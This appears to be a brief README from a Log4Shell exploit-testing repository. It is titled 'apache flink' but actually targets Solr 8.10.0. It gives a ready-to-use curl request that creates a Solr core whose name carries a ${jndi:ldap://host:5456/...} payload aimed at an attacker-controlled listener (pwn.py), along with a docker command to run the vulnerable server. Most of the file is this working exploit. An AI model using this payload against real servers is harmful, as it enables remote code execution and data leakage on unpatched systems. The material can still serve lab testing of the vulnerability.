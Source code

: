 # apache flink

Version: `8.10.0`

Can be triggered by configuring a new core, naming it the log4j payload.

This cURL request should do (where `host` is where [pwn.py](../../../pwn.py) is running with the `-k` flag):

```bash
curl 'http://localhost:8983/solr/admin/cores?_=1639544088432&action=CREATE&config=solrconfig.xml&dataDir=data&instanceDir=new_core&name=$%7Bjndi:ldap:%2F%2Fhost:5456%2F$%7Bjava:version%7D%7D&schema=schema.xml&wt=json'
```

## run

```bash
docker run --rm --name solr -p 8983:8983 solr:8.10.0
```

## example

![1](images/1.png)
